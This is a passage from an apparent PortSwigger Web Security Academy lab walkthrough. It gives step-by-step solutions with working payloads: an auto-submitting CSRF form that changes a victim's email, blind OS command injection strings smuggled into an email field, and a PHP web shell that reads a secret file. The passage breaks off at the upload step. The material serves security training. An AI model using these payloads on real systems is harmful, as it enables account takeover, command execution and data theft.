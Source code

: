 - Send the update email request into Burp Suite's Repeater.

- Replace the CSRF token with the one you copied from the first account.

- Create the exploit HTML page using the appropriate form action and CSRF token (use the following structure):

	```html
	<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
		 <input type="hidden" name="email" value="hacker@gmail.com">
		 <input type="hidden" name="csrf" value="your_copied_token">
	</form>
	<script>
		 document.forms[0].submit();
	</script>
	```
- Host the HTML page on your exploit server and store it.

- Verify the exploit by checking the resulting HTTP request and response.

- Deliver the exploit to the victim (click "Deliver to victim" in Burp Suite) to complete the lab.

#### 9) Blind OS command injection with time delays

- Go to the feedback sending page.

- Fill in the fields and intercept the request from buirp sute.

- Add following command to email and send reguest
	```bash
	||sleep 10||
	```
	> Note: Replace space with + in the URL

#### 10) Blind OS command injection with output redirection

- Go to the feedback sending page.

- Fill in the fields and intercept the request from buirp sute.

- Replace email value with folowing command:
	```bash
	||whoami>/var/www/output.txt||
	```

- Click **View Details** of one of the products and send the request with the `filename` parameter to Repeater in Burp.

- Replace the filename parameter with the file where you redirected the whoami command (in my case, `output.txt`).

#### 11) Web shell upload via path traversal

- Log in to your account with the provided credentials (`wiener`:`peter`).

- Create a PHP script (`exploit.php`) that fetches Carlos's 
secret:
	```php
	<?php echo file_get_contents('/home/carlos/secret'); ?>
	```
- Upload `exploit.php` as your avatar.
